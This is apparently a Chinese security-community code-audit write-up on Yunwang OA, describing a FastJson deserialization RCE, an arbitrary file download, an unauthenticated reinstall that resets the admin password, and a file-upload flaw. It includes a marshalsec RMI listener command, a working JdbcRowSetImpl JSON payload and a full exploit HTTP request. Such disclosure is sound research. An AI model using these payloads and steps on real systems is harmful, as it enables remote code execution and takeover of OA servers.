# 云网 OA 代码审计 - 先知社区

云网 OA 代码审计

- - -

## FastJson Rce

项目中使用到的是 fastjson1.2.37 版本。

漏洞点在：这里使用到了 ParseObject 方法。

```plain
com.cloudweb.oa.controller.updateUiSetup
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126154722-23e17f8c-bc1f-1.png)

使用 marshalsec-0.0.3-SNAPSHOT-all.jar 开启 RMI 监听。

```plain
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://127.0.0.1:8000/#Exploit" 1389
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126154730-28cb35ba-bc1f-1.png)

开一个 python web 服务。

```plain
python -m http.server 8000
```

payload 如下：

```plain
{"a":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl" }, "b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://127.0.0.1:1389/Exploit", "autoCommit":true}}
```

请求包如下：

```plain
POST /oa//setup/updateUiSetup HTTP/1.1
Host: 192.168.0.7:8096
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: skincode=lte; name=admin; pwd=; JSESSIONID=85F37A117572BE90EA4BA0ED10F77EF5
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 196

uiSetup={"a":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl" }, "b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://127.0.0.1:1389/Exploit", "autoCommit":true}}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126154740-2e59599e-bc1f-1.png)

可以看到接收到了 uiSetup 参数：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126154751-353f8486-bc1f-1.png)

最终反序列化执行：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126154802-3bc0727a-bc1f-1.png)

## 任意文件下载

功能点在模板列表这里，这里有一个下载文件的功能。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126093925-bcb78c1c-bbeb-1.png)  
点击下载抓包：

可以看到这里需要传递进去一个 fileName 的参数。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126093930-bfb1718a-bbeb-1.png)  
定位到功能点如下：

```plain
com.cloudweb.oa.controller.ReportController
```

来到 download 方法。这里会发现它拼接的是你 mysql 的路径，所以我们将 11.txt 文件放到它的上级目录进行下载。

这里的路径是你在 setup 安装的时候那个路径。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126093936-c3907526-bbeb-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126093939-c55c0500-bbeb-1.png)  
可以看到成功下载：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126093944-c82fcf96-bbeb-1.png)

##### 未授权 + 覆盖管理员密码

首先我们查看 Spring Security 的配置文件发现，setup 路劲是直接放开权限的。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126094026-e0fb47da-bbeb-1.png)  
那么我们是不是可以给他重装呢？

访问到 setup 目录，这里需要设置你服务器 mysql 的 ip 以及账号和密码。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126094032-e481ef08-bbeb-1.png)  
需要注意的是 mysql 默认不允许外网去访问的，所以需要去设置一下 mysql 这个库。

```plain
update user set host= '%' where user='root'
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126094118-004b1f84-bbec-1.png)  
然后将数据库导入进来即可。

```plain
source C:\Users\Admin\redmoonoa.sql
```

现在我们就可以开始重装了，这里的没有改之前密码是 123456，然后重装之后密码就变成 111111 了。

成功登录。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126094125-041709d4-bbec-1.png)

## 鸡肋的任意文件上传

我们在 setup 的时候会发现可以设置上传文件的路径，经过测试发现我们可以设置一个网站跟目录然后进行访问。

这里我们将文件目录设置为：

```plain
C:\Users\Admin\Downloads\yimioa-oa_git8.0\out\embed\weixin\message
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126094131-07d826b6-bbec-1.png)  
点击设置进行保存。

然后选择系统里面有一个上传的配置，我们全部置空表示任何类型都可以上传。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126094136-0b1c60a8-bbec-1.png)  
然后我们选择微信配置。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126094141-0e16b20e-bbec-1.png)  
这里有一个应用主页，将后面的路径复制出来。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126094147-11c6c27c-bbec-1.png)  
拼接到跟路径然后选择应用。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126094152-1484d24c-bbec-1.png)  
选择代办流程，然后随便选择一个流程项目。

这里点击上传即可。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126094157-178ae6ca-bbec-1.png)  
上传文件之后的路径就是我们前面重装的时候设置的，他会生成一个 FileUploadTmp 目录。

可以看到文件名是通过时间戳 + 随机值来生成的。

前面 10 位就是时间戳后面是随机值。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126094202-1a913bb2-bbec